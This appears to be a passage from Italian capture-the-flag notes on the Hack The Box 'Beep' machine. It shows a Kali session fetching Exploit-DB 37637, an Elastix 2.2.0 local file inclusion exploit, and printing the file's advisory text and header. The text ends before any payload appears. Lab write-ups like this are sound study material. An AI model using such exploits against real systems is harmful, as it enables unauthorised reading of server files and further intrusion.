 
## [[Local File Inclusion LFI]]

Questo attacco prende sempre di mira la porta 443 ma utilizzeremo una LFI

Per prima cosa ci scarichiamo LFI

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# searchsploit -m 37637.pl                                                                                                                                                                                                               
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                                                                                                
      URL: https://www.exploit-db.com/exploits/37637                                                                                                                                                                                       
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl                                                                                                                                                                              
    Codes: N/A
 Verified: True
File Type: ASCII text
cp: overwrite '/home/kali/htb/beep/37637.pl'? y
Copied to: /home/kali/htb/beep/37637.pl



┌──(root㉿kali)-[/home/kali/htb/beep]
└─# cat 37637.pl 
source: https://www.securityfocus.com/bid/55078/info

Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected.

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------#
#Elastix is an Open Source Sofware to establish Unified Communications.
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution. 
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

```